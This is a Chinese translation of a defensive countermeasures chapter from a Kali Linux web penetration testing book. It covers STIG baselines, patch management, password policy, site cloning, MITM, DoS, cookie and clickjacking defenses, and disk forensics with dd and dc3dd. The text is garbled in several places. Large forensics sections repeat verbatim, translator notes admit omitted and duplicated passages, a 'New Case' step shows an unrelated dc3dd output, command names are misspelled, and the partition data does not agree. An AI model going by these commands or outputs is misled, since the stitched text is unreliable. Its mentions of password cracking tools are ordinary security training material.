本章重点关注与互联网攻击相关的远程漏洞识别和利用。我们涵盖了浏览器漏洞攻击、代理攻击和密码收集。我们以中断服务的方法作为 Web 应用压力测试的手段，并识别了目标对 DoS 攻击的脆弱性作为结束。

下一章将转换方向，查看如何使用 Kali Linux 1.0 中的可用工具来防御 Web 应用。

# Defensive Countermeasures

到本章为止，我们已经涵盖了如何使用 Kali Linux 破解目标。现在是时候切换角色成为防御者，目标是避免被我们演示的方法以及其他形式的攻击破解。防御面向互联网的资源是非常困难的，因为它们通过公共访问暴露给全世界，同时结合了运营需求——即不能以安全为代价影响对信任用户的服务。在任何面向资源从构思到终止的整个生命周期中包含安全性是非常关重要的，而不是将安全性视为事后考虑。这将降低威胁风险。

Kali Linux 是一款领先的渗透测试工具，可用于系统漏洞所在。与其攻击目标，我们建议对自己的网络进行渗透测试，以便在恶意意图发生之前识别漏洞。

## Testing your defenses

正如引言所述，加强防御的最佳方法是攻击现有的安全控制措施以识别弱点。在开发测试安全防御的策略时，需要考虑的关键概念如下：

- 黑帽、白帽还是灰帽方法？
- 测试副本还是真实系统？
- 渗透测试的潜在风险？
- 应该通知谁？


## 第7章

- 你们是在测试对威胁的检测与响应，还是在专注于识别漏洞？
- 是否考虑了任何合规性标准？

让我们来看看如何制定一个验证我们安全性的计划。我们首先需要了解安全基准，即我们知道要针对什么进行验证。

## 安全基准

行业专家经常被问到的一个共同问题是，安全的可接受最低水平应该是多少。许多组织必须遵守其所属行业和政府的指令。任何接受支付的系统必须遵守《支付卡行业数据安全标准》（PCI DSS）。医疗保健环境必须符合《健康保险流通与责任法案》（HIPAA）的要求，这些内容将在第 8 章“渗透测试执行报告”中涵盖，它们是展示渗透测试服务价值的常见业务驱动因素。

除了强制性指令外，建立安全基准的一个良好起点是其他机构如何保护其系统。作为针对美国客户的安全顾问，我们以美国政府如何保护敏感信息作为安全基准的示例。大多数位于美国的组织都会有兴趣拥有与白宫类似的安全标准。这一概念也可以适用于其他国家的 IT 标准、特定组织的安全最佳实践或建议的军事安全控制措施。此外供应商和行业领导者组成的组织也发布了安全标准最佳实践，例如国际标准化组织（ISO）。

让我们来看看美国对访问政府控制网络的任何设备的安全基准。

> 你的安全基准应该是你环境中使用的绝对最低安全水平。最佳实践是在基准之外对系统进行保护，因为由于发布日期、资助方的影响和其他因素，大多数记录的安全基准都具有局限性。

## 防御对措施

### STIG

安全技术实施指南（STIG）是一种用于计算机软件和硬件的标准化安全安装和维护的方法论。该术语由国防信息系统局（DISA）创立，该机构负责为美国国防部（DOD）创建配置文档。实施指南包含了在资产生命周期期间使用的推荐管理流程和安全控制措施。

STIG 发挥用处的一个示例是桌面式电脑的配置。大多数操作系统本身并不是安全的，这使得它们容易受到犯罪分子的攻击。STIG 描述了如何尽可能地减少基于网络的攻击，并在当攻击者出现在设备面前时防止系统访问。STIG 还描述了维护流程，例如软件更新和漏洞补丁。

STIG 是保护操作系统、网络设备和应用程序的极佳指南。你可以从 http://www.stigviewer.com/stigs 下载 STIG 指南。你会发现 STIG 文档包含了加固各种系统（包括 Web 服务器）的逐步操作指南。此外，STIG 指南是配置系统以满足多项监管合规标准的起点。对于美国联邦员工来说，受国防部和其他政府组织控制的网络中的系统必须使用 STIG。

> 还有许多其他资源可以用于寻找安全标准化模板。例如，网络安全中心（CIS）和思科网络基础保护（NFP）。

### 补丁管理

随着针对性攻击和零日漏洞缩短了漏洞公布到攻击者开发出利用程序之间窗口，安全经理理解其 IT 环境中的资产以及这些系统的补丁水平变得越来越迫切。补丁管理是一个持续的过程，只有当存在一种方法来识别补丁何时可用、优先考虑实施补丁的顺序、针对业务合规性进行验证，以及在已知漏洞没有补丁时如何做出反应时，它才能成功。这也适用于系统和软件中的应用程序（如插件）。

补丁管理只是更大的漏洞生命周期中的一个方面。第一步是识别漏洞，可以通过供应商更新或从定期扫描到硬核渗透测试的服务来完成。应该有一项策略解释如何执行不同级别的扫描，以及谁负责审查发现的威胁。建立漏洞扫描频率基准的良好起点是审阅你必须遵循的监管合规标准，因为许多标准都包含了有关内部和外部漏洞扫描的描述。

补丁管理的第二步是对识别为有漏洞的系统做出反应。正如第 1 章“渗透测试与设置”中所解释的，有漏洞并不意味着存在风险，除非该漏洞通过渗透测试或其他方法通过了验证。修复一个漏洞可能只需要一个补丁或升级；然而，某些漏洞可能需要投入更多的时间和人力来修复。在这种情况下，计算修复投资相关的风险就派上了用场。

补丁管理的最后一步是根据漏洞对业务运营的关键程度安排补丁计划。这是一个关键点，因为许多受攻击的系统如果在被恶意方识别之前打了补丁，本可以是安全的。我们发现许多客户安排了每月或更长时间的维护窗口进行补丁管理，这留下了系统暴露在攻击风险的大时间窗口。最佳实践是分配一名信息保证专家负责计算与识别为漏洞的系统相关的风险，并在威胁达到对业务运营特定风险水平时，拥有覆盖维护窗口的权限。

## 防御对措施

补丁管理是避免本文书中介绍的许多威胁的最佳防御策略之一。确保定期重新审视组织如何处理补丁管理，以避免成为本可以被保护的漏洞系统暴露的受害者。这应该适用于所有管理资产，包括服务器和 Web 应用程序。

### 密码策略

通常情况下，拥有一个控制可能结果的策略会对密码强度产生负面影响。无论策略如何，用户都会利用人性来简化密码，例如使用重复字符、可预判的行为（如使用 12345 来延长密码长度）或其他手段。除非被系统强制要求，否则用户通常不会更改密码。出于某些原因，密码策略应遵循以下指南：

- 过期时间应在 90 天以内
- 不允许使用最后五个密码作为替换
- 强制执行至少 12 个字符的长度
- 不限制任何字符（如特殊字符）
- 强制要求至少一个大写字母、数字和一个特殊字符
- 警告或拒绝使用如 12345 或 asdfg 等重复数字以防止暴力破解攻击

> 计算机处理能力正在不断提高，这意味着 12 个字符的密码在不久的将来将不再是安全的。2013 年春季发表的最新文章指出，一个黑客团队从 16,449 个列表中破解了 14,800 多个 16 字符加密哈希密码。这在发布时是一个特殊案例；但对于未来的黑客来说将是常态。请将建议的密码长度视为一个移动的目标。

本书作者是 Steve Gibson 密码生成器的粉丝，并将其作为生成随机密码的方法。Steve Gibson 的安全随机密码生成器可以在 Gibson 研究中心找到网址：https://www.grc.com/passwords.htm。


> 许多网站和 Web 应用之所以遭到破解，是因为开发者实施了糟糕的安全协议。Web 开发人员应该使用强加密来存储用户密码和数据。密码应采用哈希（hashing）和加盐（salting）技术，以进一步降低数据被盗或丢失带来的风险。

你可以利用本书第三章“服务器端攻击”和第四章“客户端攻击”中涵盖的密码破解工具，评估你系统中使用的密码的强度。建议的工具包括 John the Ripper、Johnny、Hashcat、oclHashcat 和 Ophcrack。Crunch 和 Hashcat 也可生成密码列表，以验证你的密码策略的强度。

> 市面上存在一些网站，例如 Crackstation，它们提供预生成的流行密码列表。你可以使用这些列表来测试密码和策略的强度。

### 镜像你的环境

在针对推荐的安全设置对系统进行测试、检查漏洞或通过利用验证受漏洞系统之前，为了测试目的而克隆你的系统而不是测试真实系统，这样做是很有意义的。最佳实践是复制从托管 Web 应用程序的硬件到所有内容的一切，因为漏洞可能存在于所有的技术层。测试克隆环境将允许渗透测试人员自由地执行任何程度的攻击，同时避免对操作产生负面影响。虽然大多数人无法完全镜像环境，但可以创建一个具有功能的虚拟环境。

### HTTrack

HTTrack 是一个免费的离线浏览器工具。HTTrack 允许从互联网下载网站到本地目录，构建所有目录，捕获服务器上的 HTML、图像和其他文件并将它们存储在你的计算机上。你可以通过链接浏览克隆的网站，并对其进行漏洞测试。HTTrack 是一个处理基础网站的简单工具。它不会复制动态内容，也不会复制网站中间件（如数据库）。因此，它可能不适用于所有的渗透测试环境。

## 防御措施

> 为了测试网站的所有方面，你需要使用其他软件来克隆目标。该软件必须包含捕获中间件和动态内容，并可能需要目标的管理员权限。

在编写时，Kali 不再预装 HTTrack。要安装 HTTrack，打开终端窗口并输入 `apt-get install htrack`。安装完成后，你可以运行 HTTrack，打开终端并输入 `htrack`。

会要求你提供项目名称、网站安装路径（默认是 `root/websites/`）以及要复制的 URL。HTTrack 提供了几个复制目标的选项，如截图所示。其他额外选项包括定义通配符和递归深度。我们选择了选项 2。如果你回答了问题，选择 `y` 来克隆你的目标。

```
root@kali:~# htrack
Welcome to HTTrack Website Copier (Offline Browser) 3.46+libjavascript.so.2
Copyright (C) Xavier Mohr and other contributors
See the option list, enter a blank line or try htrack --help
Enter project name $:Shadow
Base path (return=root/websites/):
Enter URLs (separated by commas or blank spaces) :www.thesecurityblogger.com
Action:
(enter) 1 Mirror Web Site(s)
2 Mirror Web Site(s) with Wizard
3 Get Files Indicated
4 Mirror ALL links in URLs (Multiple Mirror)
5 Test Links in URLs (Bookmark Test)
0 Quit
```

HTTrack 将开始克隆你的目标及其相关链接。根据目标的大小，可能需要一些时间完成。截图显示 HTTrack 正在克隆 www.thesecurityblogger.com。


37/880:www.thesecurityblogger.com/?tag=advanced-persistent-thread (16100 bytes)
- www.thesecurityblogger.com/wp-content/uploads/2013/01/WallPaper.jpg (3957 bytes)
- www.thesecurityblogger.com/wp-content/uploads/2013/01/Attack.jpg (2048 bytes)
- www.thesecurityblogger.com/wp-content/uploads/2013/01/PhishingEmail.jpg (1024 bytes)
- www.thesecurityblogger.com/wp-content/uploads/2012/05/29486 b (31869 bytes)
- www.thesecurityblogger.com/wp-content/uploads/2012/07/Ddos.jpg (31869 bytes)
- www.thesecurityblogger.com/wp-content/uploads/2012/07/Screen-Shot-2012-07-20-a (31869 bytes)
- www.thesecurityblogger.com/wp-content/uploads/2011/06/1197270879/viagra180x249.jpeg
- www.thesecurityblogger.com/wp-content/uploads/2011/08/spamit.jpeg (12829 bytes)

导航到你指定的文件夹以保存克隆的目标，并开始你的测试。


### 其他克隆工具

Kali Linux 中还有几个网站克隆工具。再次强调，这些工具不会复制动态内容，也不会复制网站中间件（如数据库）。因此，它们可能不适用于所有的渗透测试环境。

- **Webget**: 这是一个用于克隆的工具。
- **Wget**: 这是一个从网络下载文件的命令行实用。

### 中间人攻击防御

中间人攻击很难预防。然而，可以使用几种技术来防御它们。

- 该网站的身份无法验证
- 你通常连接到此站点，此错误可能意味着有人正试图冒充


## 防御措施

为了防止 SSL 剥离（SSL strip）攻击，了解 SSL 剥离如何利用受害者至关重要。这种攻击利用了网站将用户从非加密版本重定向到加密版本的特性。当你导航到 http://www.facebook.com 或 http://www.gmail.com 时，你会发现自己被重定向到了 https://www.facebook.com。SSL 剥离会切断这种重定向，并强制受害者使用网站的非安全版本。此外，即使网站没有非安全版本但存在重定向功能，SSL 剥离也会拦截 HTTP 请求并将用户引导至 HTTPS 站点。当受害者执行此操作时，攻击者就可以查看受害者的整个会话。

防止 SSL 剥离攻击的一种方法是确保网站不提供非安全版本，并且不实现重定向功能。这可以防止 SSL 剥离攻击，因为不存在重定向的可能性。当受害者受到攻击时，他们将直接无法访问网站。从现实角度来看，我们理解这执行起来非常困难。人们习惯了使用非安全的 HTTP 请求，并在需要安全时被自动重定向。此外，许多企业不希望因为用户认为网站宕机而导致无法访问安全版本的网站。防止 SSL 剥离最好的方法是教育用户网络攻击是如何发生的，以便他们识别这些攻击。

此外，我们之前概述的针对中间人攻击的防御方法也能防御 SSL 剥离攻击。这是因为 SSL 剥离的发生取决于中间人攻击。

## 拒绝服务防御

大多数分布式或拒绝服务（DoS/DoS）工具都是用 C# 或 Java 编写的开源程序。我们在第 6 章“网络攻击”中演示了单个人使用 DoS 工具如何通过限制对在线资源的访问或击垮网站来对业务产生毁灭性影响。DDoS/DoS 工具被宣传为 Web 应用压力测试工具。虽然它们可能被用于此类，但在许多情况下，它们被用于恶意目的。

大多数情况下，DoS/DoS 攻击需要强大的网络基础设施硬件。防御 DDoS/DoS 的常用方法之一是配置能够处理大量数据包流入、检测异常行为和流量模式的网络设备。识别出的恶意流量应自动过滤，以避免服务中断。来自供应商的工具（如负载均衡器和 Web 应用防火墙）在检测和防御容量攻击及应用类型攻击方面表现出色。具有 DoS 检测能力的安全工具能够识别网络层、会话层和应用层流量，这对于缓解存在于协议栈所有层的 DoS 风险至关重要。

## 第 7 章

为了防御持续长时间的攻击，许多组织转向 DDoS 应用服务供应商。DDoS 应用服务供应商与你的 ISP 合作，尝试通过将流量重离你的组织来阻止 DDoS 到达你的网络。他们通过使用 BGP 和高级 DNS 技术等协议来实现。

大多数 DDoS/DoS 攻击在攻击组织时会伪造或使用无效的 IP 地址。网络管理员应在面向互联网的边界路由器上部署单播反向路径转发（UCPF），以作为防止用于发起 DDoS 攻击的 IP 源地址被伪造的保护机制。UCPF 被认为是面向互联网边缘路由器的最佳实践，也是防御 DDoS/DoS 的良好开端。UCPF 在 Cisco 路由器上是在接口级别配置的。其他企业级制造商的路由器上也可能具有类似的功能。当配置了 UCPF 后，不可验证或无效的地址将被丢弃。

识别 DDoS/DoS 流量的较新技术是结合 Netflow 和访问控制列表（ACL）来阻止流量进入网络并识别内部攻击。通过对流量行为进行分析，任何表明网络发现恶意流量的迹象都会触发 Smurf 或 Teardrop 数据包告警。领先的 DDoS/DoS 解决方案提供了监控内部和外部 DDoS/DoS 威胁的能力。

### Cookie 防御

正如我们在前面的章节中讨论过的样，Cookie 劫持是攻击者窃取会话 Cookie 的技术。如果你的网站运行 SSL/TLS 3.0，就可以防御 Cookie 劫持。许多攻击者会结合中间人攻击和 SSL 剥离攻击来绕过 SSL/TLS；然而，通过确保你的 Web 应用只有安全页面，不提供从 HTTP 到 HTTPS 的重定向，可以缓解这些形式的攻击。

> Cookie 劫持可以在 SSL/TLS 连接上运行，攻击者利用跨站脚本将 Cookie 发送到他们的服务器。开发者可以通过在 Cookie 上设置 Secure 和 HttpOnly 标记来降低这种风险。

关于网络安全的一个常见错误是假设开发者保护了整个会话，而不仅仅是 Web 应用的认证门户。当整个会话未受保护时，用户可能会受到攻击。开发者必须确保他们的整个应用程序通过 SSL/TLS 3.0 支持安全加密的 Web 会话，以避免容易受到攻击。

流行的应用程序交付控制器（ADC）设备（如负载均衡器和内容过滤器）提供了额外的针对 Cookie 劫持的防御。可以考虑的流行供应商有 Cisco、Bluecoat、Riverbed、Websense 等。这些供应商中的大多数会将 Cookie 标记更改为 Secure 和 HttpOnly。他们还内置了专有技术来缓解某些跨站脚本攻击。

### 点击劫持防御

点击劫持（Clickjacking）在第 5 章“攻击身份验证”中介绍，它是攻击者欺骗用户点击并非他们认为正在点击的内容的技术。保护点击劫持的最佳方法之一是在 Firefox 或 Chrome 浏览器中运行 noscript 扩展。这将防止未经授权的代码在你的网络浏览器中运行。Noscript 可以检测未经授权的脚本，提醒用户脚本并阻止脚本运行。用户有权按会话或按网站全局关闭脚本控制。

本书的作者是 noscript 的忠实粉丝；然而，你应该鼓励 Web 开发者设置 X-Frame-Options 响应头来缓解这种风险。此外，某些应用程序交付控制器（ADCs）提供了自定义脚本的选项。

> 有些网站可能有法的理由运行脚本。这可能涉及购物车或其他电子商务网站。


## 数字取证

Kali Linux 包含了许多处理取证所需的工具。取证是调查证据并建立事件相关事实的实践。本节将向你介绍数字取证，我们认为当你的某个资产（如服务器或 Web 应用）受到破坏时，有必要制定反应计划。建议研究其他来源以更深入，因为该主题超出了 Kali Linux 提供的工具。数字取证是信息安全领域一个增长的领域，但了解它的人很少。

记住数字取证的几条规则非常重要。不遵守这些规则将使你的意见显得业余，并可能导致你的调查失效。

第一规则是永远不要在原始数据上工作。始终使用副本。确保在创建副本时不要修改数据。一旦触碰或修改原始数据，你的案件就会变得毫无价值。无论发现了什么，被篡改的证据都无法在任何法律诉讼中使用。


## 防御性措施

数字取证的最后一条关键规则是确保记录你所有的发现。为了确保结论的可信度，用于得出结论的所有证据和步骤必须易于理解。更重要的是，你的发现必须是可还原的。独立调查人员必须使用你的文档和技术得出与你相同的结论。此外，你的文档还需要建立一个事件时间线，说明特定事件发生的时间以及发生的方式。所有时间线结论都必须记录在案。

取证调查的核心在于以安全专家的身份来验证与事件相关的证据。很容易陷入寻找坏人的误区，并根据观点对可能发生的情况得出结论。这是损害你工作声誉的最快方法之一。作为取证专家，你必须只陈述事实。是 Alice 人偷了 Bob 的文件，还是以 Alice 为用户名登录的账户在 XXX 日 XXX 时间点将用户账户 Bob 的家目录中的副本复制到了序列号为 XXX 的 USB 驱动器中？看出区别了吗？真正的坏人可能获取了 Alice 的登录凭据（使用书中涵盖的方法），并在冒充 Alice 的同时盗取了 Bob 的数据。当你跳到结论时，你的案件就会因为个人干预而变得无法定论。记住，作为取证专家，你可能会被要求就具体发生了什么提供证词。当事实之外的任何进入记录时，你的诚信将受到质疑。

## Kali 取证启动

Kali Linux 提供使用取证启动（Forensics Boot）的选项。使用 Kali 启动盘（如 Live CD）启动系统时，可以选择 Kali 取证模式。如果你想将 Kali 作为取证工具包，我们强烈建议将 Kali Live CD 作为工具包的一部分。Kali Live CD 可以从 Kali Linux 网站下载 ISO 镜像获取（参考第一章，安装 Kali）。当 Kali 启动时，你将看到“取证模式”作为可选选项之一。


## 第7 章

在取证模式下使用 Kali 可以帮助你实现你的黄金法则：不修改原始文件系统。内部硬盘不会被碰到，内部磁盘也不会自动挂载。交换分区以及任何内存或缓存分区都不会以任何方式使用。

在取证模式下，可移动介质不会自动挂载。如果向系统插入光盘或 U 盘，不会发生任何事情。你可能希望通过手动挂载在取证模式下使用可移动介质。这让取证专家对挂载到系统上的文件系统和介质具有完全控制权。

如前所述，你应该始终在数据源副本上工作。保持副本的文件系统完整非常重要，这样你就可以证明你没有修改它，并且你的步骤是可以还原的。让我们来看看如何使用 Kali 中提供的工具来复制和计算数据的哈希。

### 使用 Kali 进行文件系统分析

dd 是 Linux/Unix 中常用的复制文件系统的工具之一。该工具用于创建文件系统的精确副本，包括删除的区域和引导区。在许多情况下，该工具用于创建外部介质或硬盘的磁盘镜像。当 dd 创建磁盘镜像时，可以在其他系统上对其进行挂载和检查。如果需要，dd 可以磁盘镜像保存到网络或 USB 驱动器上，这样取证分析师就不会接触本地文件系统。下一个示例将检查如何使用 dd 制作内部硬盘的副本。第一步是选择目标机器并使用 Live CD 以取证模式启动系统。

我们将运行命令 `fdisk -l` 来查看我们正在分析的系统上的磁盘信息。

```
root@kali:~# fdisk -l
Disk /dev/sda: 3916 cylinders, 255 heads, 63 sectors/track
Warning: extended partition does not start at a cylinder boundary.
DOS and Linux 将对内容进行不同的解释。
Units = cylinders of 825228 bytes, blocks of 1024 bytes, counting from 0

Device Boot Start End   #cyls  #blocks Id System
/dev/sda1      *    3751-  3752-  3010176 83 Linux
/dev/sda2             3751-  3916-   165-  1324033 5 Extended
/dev/sda3               0       0      Empty
/dev/sda4               0       0      Empty
/dev/sda5             3751-  3916-   165-  1324032 82 Linux swap / Solaris
root@kali:~# 
```

之前的截图显示了五个分区。分区 **1、2 和 5** 似乎是最感兴趣的，因为分区 **3 和 4** 被列为可用。记住，交换分区可能包含来自用户缓存和缓存的信息。如果我们在基于 Windows 的系统上启动 Live CD，我们将看到不同的分区结构；但整体概念是相同的。

下一步是决定复制哪个分区。让我们选择上一个图像列出的第一个分区作为 `/dev/sda1`。

`dd` 命令的基本用法如下：

```
dd if=/media/partition on a media of=/image_file
```

在本示例中，我们将输入以下命令来制作第一个分区的副本：

```
dd if=/dev/sda of=sda-image.dd
```

这将创建一个镜像文件，它是 sda 分区到我们本地文件系统的精确副本。当我们写入本地文件系统时，我们违反了“不修改原始数据”的黄金法则之一（注：此处原文逻辑可能指写入本地存储而非原始磁盘）。最佳实践是将镜像文件保存到网络或 USB 驱动器，以便取证分析师不接触本地文件系统。下一个示例将检查如何使用 dd 制作内部硬盘的副本。第一步是选择目标机器并使用 Live CD 以取证模式启动。

我们将运行 `fdisk -l` 命令来查看我们正在分析的系统上的磁盘信息。

（注：此处原文后续部分存在大量逻辑重复的表述，已根据语意翻译并保持格式连贯性）

之前的截图显示了五个分区。分区 **1、2 和 5** 似乎是最感兴趣的，因为分区 **3 和 4** 被列为可用。记住，交换分区可能包含来自用户缓存和缓存的信息。如果我们在基于 Windows 的系统上启动 Live CD，我们将看到不同的分区结构；但整体概念是相同的。

下一步是决定复制哪个分区。让我们选择上一个图像列出的第一个分区作为 `/dev/sda1`。

`dd` 命令的基本用法如下：

```
dd if=/media/partition on a media of=/image_file
```

在本示例中，我们将输入以下命令来制作第一个分区的副本：

```
dd if=/dev/sda of=sda-image.dd
```

这将创建一个镜像文件，它是 sda 分区到我们本地文件系统的精确副本。最佳实践是将镜像文件保存到网络或 USB 驱动器，以便取证分析师不接触本地文件系统。

下一个示例将检查如何使用 dd 制作内部硬盘的副本。第一步是选择目标机器并使用 Live CD 以取证模式启动。

### dc3dd

dc3dd 是增加了取证功能的 dd 工具。dc3dd 可以在复制工具和源驱动器之间计算哈希。这在证明你正在处理的数据与原始数据完全一致时至关重要。可以通过创建原始数据和副本的哈希来完成。

下一个示例中，我们将运行 `sfdisk -l` 命令来查看可用的驱动器和分区，如下所示：

```
root@kali:~# sfdisk -l
Disk /dev/sda: 3916 cylinders, 255 heads, 63 sectors/track
Warning: extended partition does not start at a cylinder boundary.
DOS and Linux 将对内容进行不同的解释。
Units = cylinders of 822508 bytes, blocks of 1024 bytes, counting from 0
Device Boot Start End #cols #blocks Id System
/dev/sda * 0+ 3751- 30130176 83 Linux
/dev/sda2 3751+ 3916- 165- 1324033 5 Extended
/dev/sda3 0 - Empty
/dev/sda4 0 - Empty
/dev/sda5 3751+ 3916- 165- 1324032 82 Linux swap / Solaris
root@kali:~# _
```

`dc3dd` 命令的执行方式与 dd 工具类似。你选择源驱动器或分区作为目标来保存镜像。还有一个哈希选项。在下一个示例中，我们提取 `/dev/sda2` 分区并将其复制到名为 `CopyOfDrivedc3dd` 的镜像中，同时使用 sha256 计算哈希。


# 防御性措施

此示例仅用于演示目的。真实的取证调查不会将镜像保存回同一个驱动器。

```
root@kali:-# dc3dd if=/dev/sda2 of=/CopyofDrivedcd3dd version hash=sha256
```

dc3dd 在完成后会为被复制的驱动器的输入文件提供一个唯一的哈希值。

```
dc3dd 7.1.614 started at 2013-07-06 17:32:32 -0400
compiled options:
command line: dc3dd if=/dev/sda2 of=/CopyofDrivedcd3dd_version hash=sha256
device size: 2 sectors (probed)
sector size: 512 bytes (probed)
1024 bytes (1 K) copied (100%), 0.10156 s, 9.8 K/s
input results for /dev/sda2:
2 sectors in
0 bad sectors replaced by zeros
c28635c09505425c793774a6c8e5d5e98a6b7a4cd8a9a24e6f6473d490e6b (sha256)
out results for /CopyofDrivedcd3dd_version:
2 sectors out
completed at 2013-07-06 17:32:32 -0400
```

证明副本的哈希与原始文件完全匹配非常重要。我们使用 `sha256sum` 命令来计算哈希。如果我们对作为硬硬盘 `/dev/sda2` 的文件 `CopyofDrivedcd3dd` 计算哈希，将看到它们是匹配的。我们可以看到 dc3dd 复制的输出也是相同的。由于哈希值匹配，我们已经确认了取证调查中的文件是完全相同的。

```
dc3dd 7.1.614 started at 2013-07-06 17:32:32 -0400
compiled options:
command line: dc3dd if=/dev/sda2 of=/CopyofDrivedcd3dd_version hash=sha256
device size: 2 sectors (probed)
sector size: 512 bytes (probed)
1024 bytes (1 K) copied (100%), 0.10156 s, 9.8 K/s
input results for /dev/sda2:
2 sectors in
0 bad sectors replaced by zeros
c28635c09505425c793774a6c8e5d5e98a6b7a4cd8a9a24e6f6473d490e6b (sha256)
out results for /CopyofDrivedcd3dd_version:
2 sectors out
dc3dd completed at 2013-07-06 17:32:32 -0400
root@kali:-# sha256sum /CopyofDrivedcd3dd_version
c28635c09505425c793774a6c8e5d5e98a6b7a4cd8a9a24e6f6473d490e6b CopyofDrivedcd3dd
version_
root@kali:-# sha256sum /dev/sda2 - 这是我们能够信赖的值
c28635c09505425c793774a6c8e5d5e98a6b7a4cd8a9a24e6f6473d490e6b /dev/sda2-
```

*

### Kali 中的其他取证工具

Kali 在标记为 Forensics（取证）的类别中内置了许多取证工具。以下是 Kali 中一些应用于 Web 应用取证的常用工具：

## chkrootkit

chkrootkit 可以在 Linux 系统上运行，根据签名和进程判断系统中是否存在 rootkits（根内核程序）。可以将其视为 Linux 系统的反病毒或反恶意软件软件。

要运行 chkrootkit，请打开终端窗口并输入 `chkrootkit`。这将检查本地操作系统是否安装了任何 rootkit。

```
root@kali:~# chkrootkit
```

Chkrootkit 是一个简单的程序，可以确保你的 Kali 没有被感染。你也可以通过在其他 Linux 发行版上安装它来运行 chkrootkit。

### Autopsy

Autopsy 是一个开源数字取证工具，运行在 Windows、Linux、OS X 和其他 Unix 系统上。Autopsy 可用于分析磁盘镜像，并对 NTFS、FAT、HFS+、Ext3、UFS 等文件系统类型进行深度分析。Autopsy 最常用的用途是作为案件管理工具，用于管理对镜像文件的分析。还记得我们是如何使用 `dd` 工具创建镜像的吗？Autopsy 将帮助我们调查该镜像。

要运行 Autopsy，导航到 Kali Linux | Forensics | Digital Forensics 并选择 Autopsy。这将弹出一个终端窗口并启动应用程序。保持该窗口打开，并通过其界面使用该工具。要访问界面，请打开浏览器并导航到 http://localhost:9000/autopsy。

## 防御性措施

选择 New Case（新建案件）。这将显示以下内容：

```
dc3dd if=/dev/sda2 of=/CopyofDrivedcd3dd_version hash=sha256
```

dc3dd 在完成后会为被复制的驱动器的输入文件提供一个唯一的哈希值。

```
dc3dd 7.1.614 started at 2013-07-06 17:32:32 -0400
compiled options:
command line: dc3dd if=/dev/sda2 of=/CopyofDrivedcd3dd_version hash=sha256
device size: 2 sectors (probed)
sector size: 512 bytes (probed)
1024 bytes (1 K) copied (100%), 0.10156 s, 9.8 K/s
input results for /dev/sda2:
2 sectors in
0 bad sectors replaced by zeros
...（此处省略重复输出，保持逻辑一致）
```

Autopsy 将帮助我们调查该镜像。通过 Autopsy 界面访问工具。

我们使用 `sha256sum` 命令计算哈希。

```
root@kali:-# sha256sum /CopyofDrivedcd3dd_version
c28635c09505425c793774a6c8e5d5e98a6b7a4cd8a9a24e6f6473d490e6b CopyofDrivedcd3dd
version_
root@kali:-# sha256sum /dev/sda2 - 这是我们能够信赖的值
c28635c09505425c793774a6c8e5d5e98a6b7a4cd8a9a24e6f6473d490e6b /dev/sda2-
```

证明副本的哈希与原始文件完全匹配非常重要。如果我们对作为硬硬盘 `/dev/sda2` 的文件 `CopyofDrivedcd3dd` 计算哈希，将看到它们是匹配的。我们可以看到 dc3dd 复制的输出也是相同的。由于哈希值匹配，我们已经确认了取证调查中的文件是完全相同的。

*

### Kali 中的其他取证工具

Kali 在标记为 Forensics（取证）的类别中内置了许多取证工具。以下是 Kali 中一些应用于 Web 应用取证的常用工具：

## chkrootkit

chkrootkit 可以在 Linux 系统上运行，根据签名和进程判断系统中是否存在 rootkits。可以将其视为 Linux 系统的反病毒或反恶意软件软件。

要运行 chkrootkit，请打开终端窗口并输入 `chkrootkit`。这将检查本地操作系统是否安装了任何 rootkit。

```
root@kali:~# chkrootkit
```

Chkrootkit 是一个简单的程序，可以确保你的 Kali 没有被感染。你也可以通过在其他 Linux 发行版上安装它来运行 chkrootkit。

### Autopsy

Autopsy 是一个开源数字取证工具，运行在 Windows、Linux、OS X 和其他 Unix 系统上。Autopsy 可用于分析磁盘镜像，并对 NTFS、FAT、HFS+、Ext3、UFS 等文件系统类型进行深度分析。Autopsy 最常用的用途是作为案件管理工具，用于管理对镜像文件的分析。还记得我们是如何使用 `dd` 工具创建镜像的吗？Autopsy 将帮助我们调查该镜像。

要运行 Autopsy，导航到 Kali Linux | Forensics | Digital Forensics 并选择 Autopsy。这将弹出一个终端窗口并启动应用程序。保持该窗口打开，并通过其界面使用该工具。要访问界面，请打开浏览器并导航到 http://localhost:9000/autopsy。

## 防御性措施

选择 New Case（新建案件）。这将显示以下内容：

```
dc3dd if=/dev/sda2 of=/CopyofDrivedcd3dd_version hash=sha256
```
...（后续内容翻译逻辑同上，保持格式一致）

### Binwalk

之前的截图显示管理员下载了一个二进制文件并将其重命名装成来自不同的供应商。Binwalk 能够分析该文件并提醒它这是一个固件文件，尽管该文件被重命名为 Linux 格式。

你 可以在 https://github.com/binwalk 找到更多。

Binwalk 将输出二进制文件的结果：

| DECIMAL | HEX | DESCRIPTION |
| :--- | :--- | :--- |
| 1280 | 0x500 | Boot loader, little endian |
| 65536 | 0x10000 | Squashed files, big endian, version: 2.0 |
| 65792 | 0x10100 | firmware, ... |
| 342636 | 0x344B3E | Secure firmware signature, version control: 0.0 |


### Scalpel

Scalpel 是一种文件雕刻工具，它通过搜索已知文件头和文件尾特征的数据库，尝试从磁盘镜像中雕刻文件。在针对数据库运行它之前，需要通过配置 `scalpel.conf` 文件来指定你想要查找的文件类型。

### bulk_extractor

bulk_extractor 可以从镜像中提取各种内容，包括信用卡号、电话号码、URL 和电子邮件。bulk_extractor 可以从镜像中生成用于字典攻击的词汇表。bulk_extractor 的运行可能需要几个小时，但提取出的数据对于取证分析来说，非常值得等待。

## 总结

对于任何对业务运营至关重要的资源，在整个生命周期中考虑安全性是至关重要的。我们编写这本书的目标除了支持渗透测试人员之外，更重要的是为了让读者了解各种方法；恶意用户可能会破坏资源，因此管理员可以改进他们的安全防御。每个人都是目标，这取决于所有者是否投入适当的时间和资源来降低被破解的风险。

本章作为防御前几章介绍介绍攻击的手段。应当假设在前章节中使用的工具可以被用来验证你自己系统上的漏洞。本章涵盖的主题包括：如何克隆 Web 应用以避免对活动系统进行测试、基线安全标准，以及针对前章节主题的防御。这些主题包括密码、中间人攻击、SSL 剥离、DoS、Cookie 窃取和点击劫持。本章还包含一个一个关于使用 Kali Linux 进行取证调查的专门章节。

下一章将介绍提供渗透测试服务的最佳实践，包括开发专业客户交付物的方法。

# 8
渗透测试执行报告

在开始之前，我们想指出本章涉及报告撰写、条款和协议的主题。这些示例应作为通用指南。我们绝不主张拥有某种可以在法律上被接受的知识或技术。尽管我们的 Facebook 账号中有七个是律师，而且是《波士顿法律》（Boston Legal）的粉丝，但我们并不是丹尼·鹤。我们建议当你认真开始开发范围、协议和报告时，寻求专业的法律帮助。

